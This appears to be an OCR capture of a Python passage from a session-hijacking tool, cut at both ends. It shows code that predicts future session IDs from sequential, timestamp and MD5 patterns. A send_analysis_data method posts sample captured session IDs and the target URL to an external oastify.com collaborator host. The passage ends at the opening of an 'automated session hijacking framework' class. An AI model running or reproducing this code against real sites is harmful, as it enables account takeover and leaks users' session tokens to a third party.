 ```python
        
        predicted_sessions = []
        
        # Test sequential prediction
        numeric_ids = [int(sid) for sid in session_ids if sid.isdigit()]
        if len(numeric_ids) >= 2:
            # Calculate increment
            last_id = numeric_ids[-1]
            increment = numeric_ids[-1] - numeric_ids[-2] if len(numeric_ids) > 1 else 1
            
            # Predict next 10 session IDs
            for i in range(1, 11):
                predicted_id = str(last_id + (increment * i))
                predicted_sessions.append(predicted_id)
        
        # Test timestamp prediction
        current_time = int(time.time())
        for i in range(10):
            future_time = current_time + i
            predicted_sessions.append(str(future_time))
        
        # Test hash prediction (if pattern detected)
        if self.detect_hash_patterns(session_ids)['md5'] > 0:
            for i in range(10):
                predictable_input = f"session{current_time + i}"
                predicted_hash = hashlib.md5(predictable_input.encode()).hexdigest()
                predicted_sessions.append(predicted_hash)
        
        return predicted_sessions
    
    def send_analysis_data(self, session_ids, timestamps):
        """Send analysis data to test site"""
        try:
            analysis_data = {
                'test_type': 'session_analysis',
                'timestamp': time.time(),
                'session_count': len(session_ids),
                'sample_sessions': session_ids[:5],  # Send first 5 as samples
                'analysis_timestamp': timestamps[:5] if timestamps else [],
                'target_url': self.target_url
            }
            
            response = requests.post(self.test_site, json=analysis_data, timeout=10)
            if response.status_code == 200:
                print(f"[+] Analysis data sent to monitoring site")
            else:
                print(f"[-] Failed to send analysis data: HTTP {response.status_code}")
                
        except Exception as e:
            print(f"[-] Error sending analysis data: {e}")

# Session Hijacking Automation Framework
class SessionHijackingFramework:
    def __init__(self, target_url):
        self.target_url = target_url
        self.test_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
        self.captured_sessions = {}
        
    def automated_session_hijacking_test(self):
        """Run automated session hijacking tests"""
        print("="*60)
        print("AUTOMATED SESSION HIJACKING FRAMEWORK")
        print("="*60)
```